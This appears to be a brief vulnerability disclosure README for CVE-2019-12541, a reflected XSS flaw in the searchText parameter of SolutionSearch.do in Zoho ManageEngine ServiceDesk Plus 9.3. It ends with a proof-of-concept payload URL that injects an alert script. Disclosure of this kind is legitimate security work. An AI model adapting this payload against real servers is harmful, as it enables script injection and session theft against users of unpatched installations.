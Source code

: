 # CVE-2019-12541 Zoho ManageEngine ServiceDesk Plus 9.3 XSS vulnerability in SolutionSearch.do
Information Description: An issue was discovered in Zoho ManageEngine ServiceDesk Plus 9.3. There is XSS via the SolutionSearch.do searchText parameter. 

**Author: Concobe of Tarantula Team - VinCSS (a member of Vingroup)**

# Payload 
domain/SolutionSearch.do?searchText=1'%3balert('XSS')%2f%2f&selectName=Solutions
